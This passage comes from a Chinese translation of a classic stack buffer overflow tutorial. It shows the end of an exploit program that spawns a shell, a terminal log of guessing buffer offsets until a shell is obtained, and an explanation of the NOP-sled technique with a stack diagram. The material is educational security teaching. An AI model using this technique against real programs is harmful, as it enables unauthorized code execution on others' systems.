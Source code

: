 ```

    memcpy(buff,"EGG=",4);
    putenv(buff);
    system("/bin/bash");
}
```

现在我们尝试猜测缓冲区的大小和偏移量:

```
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit
[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
Illegal instruction
[aleph1]$ exit
[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794
[aleph1]$ ./vulnerable $EGG
$
```

正如我们所看到的, 这并不是一个很有效率的过程. 即使知道了堆栈的起始地址, 尝试猜测偏移量也几乎是不可能的. 我们很可能要试验几百次, 没准几千次也说不定. 问题的关键在于我们必须*确切*地知道我们代码开始的地址. 如果偏差哪怕只有一个字节我们也只能得到段错误或非法指令错误. 提高成功率的一种方法是在我们溢出缓冲区的前段填充NOP指令. 几乎所有的处理器都有NOP指令执行空操作. 常用于延时目的. 我们利用它来填充溢出缓冲区的前半段. 然后把shellcode放到中段, 之后是返回地址. 如果我们足够幸运的话, 返回地址指到NOPs字串的任何位置, NOP指令就会执行, 直到碰到我们的shellcode. 在Intel体系结构中NOP指令只有一个字节长, 翻译为机器码是`0x90`. 假定堆栈的起始地址是`0xFF`, `S`代表shellcode, `N`代表NOP指令, 新的堆栈看起来是这样:

```
内存低地址                                       内存高地址
+----------------------+------+------+------+------+------+
| DDDDDDDDEEEEEEEEEEEE | EEEE | FFFF | FFFF | FFFF | FFFF |
+----------------------+------+------+------+------+------+
| 89ABCDEF0123456789AB | CDEF | 0123 | 4567 | 89AB | CDEF |
+----------------------+------+------+------+------+------+
|       buffer         | sfp  | ret  |  a   |  b   |  c   |
+----------------------+------+------+------+------+------+
| NNNNNNNNNNNSSSSSSSSS | 0xDE | 0xDE | 0xDE | 0xDE | 0xDE |
+----------------------+------+------+------+------+------+
 ↑                             |
 +-----------------------------+
堆栈顶部                                           堆栈底部
```
